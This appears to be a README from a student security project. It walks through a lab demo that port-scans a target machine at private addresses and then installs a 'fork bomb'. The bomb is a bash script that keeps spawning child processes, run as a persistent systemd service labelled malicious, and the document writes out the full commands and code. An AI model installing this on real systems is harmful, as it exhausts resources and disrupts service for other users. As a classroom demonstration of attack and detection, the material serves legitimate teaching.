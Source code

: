 # Fork Bomb Demo

This demo showcases the setup and execution of a fork bomb on a remote machine. The fork bomb script is installed as a systemd service and runs under the demo user.

## Prerequisites

- SSH access to the target machine (ST24-401D - 10.10.248.157) with user `cs401`.
- `sudo` privileges on the target machine.
- Basic understanding of systemd services and bash scripting.

## Execute Script for automatic execution

Run the demo.sh script without sudo, and it will execute the attack itself.

```bash
~/ProtectNet/demo/demo.sh
```

## Automatic Execution

In case you want to run the attack on your own in live, all you need to do is run the following steps:

1. **Execute Demo Script**

    Run the demo script and insert the password for the demo user:

    ```bash
    ./demo.sh
    ```
1. **SSH into the Target Machine as the Demo User**

   Connect via SSH to remote host as `demo` user:

   ```bash
   ssh demo@10.10.248.158
   ```
1. **Execute Attack Script**

   Run the attack script and insert the password for the demo user:

   ```bash
   ./attack.sh
   ```
   
## Explanation - Steps in Script

1. **Login to the Target Machine**

    Use SSH to log in to the attacker machine with the `cs401` user.

    ```bash
    ssh cs401@10.10.248.157
    ```

1. **Run a Port Scan**

    Perform a port scan on the target machine to identify open ports.

    ```bash
    sudo nmap -p 1-30 10.10.248.158
    ```

1. **SSH into the Target Machine as the Demo User**

    Switch to the demo user on the target machine.

    ```bash
    ssh demo@10.10.248.158
    ```

1. **Create the Fork Bomb Script**

    Create a bash script that continuously spawns child processes.

    ```bash
    sudo touch /usr/local/bin/fork_bomb.sh
    ```

    ```bash
    sudo tee /usr/local/bin/fork_bomb.sh > /dev/null << EOF
    #!/bin/bash

    create_child_process() {
        sleep 9999 &
        child_pid=\$!
        echo "Created child process with PID: \$child_pid"
    }

    trap 'kill \$(jobs -p); exit' SIGINT SIGTERM

    while true
    do
        for i in \$(seq 1 60);
        do
            create_child_process
        done
        sleep 30
    done
    EOF
    ```

1. **Make the Script Executable and Set Ownership**

    Grant execute permissions to the script and change its ownership to the demo user.

    ```bash
    sudo chmod +x /usr/local/bin/fork_bomb.sh
    ```

    ```bash
    sudo chown demo: /usr/local/bin/fork_bomb.sh
    ```

1. **Create a systemd Service for the Fork Bomb**

    Set up a systemd service to manage the fork bomb script.

    ```bash
    sudo touch /etc/systemd/system/fork.service
    ```

    ```bash
    sudo tee /etc/systemd/system/fork.service > /dev/null << EOF
    [Unit]
    Description=Malicious Fork Bomb Service
    After=network.target

    [Service]
    ExecStart=/usr/local/bin/fork_bomb.sh
    ExecStop=/bin/kill -s SIGTERM \$MAINPID
    Restart=always
    User=demo
    KillMode=process
    Type=simple

    [Install]
    WantedBy=multi-user.target
    EOF
    ```

1. **Reload systemd and Start the Fork Bomb Service**

    Reload systemd to recognize the new service and then start the fork bomb.

    ```bash
    sudo systemctl daemon-reload
    ```

    ```bash
    sudo systemctl start fork.service
    ```
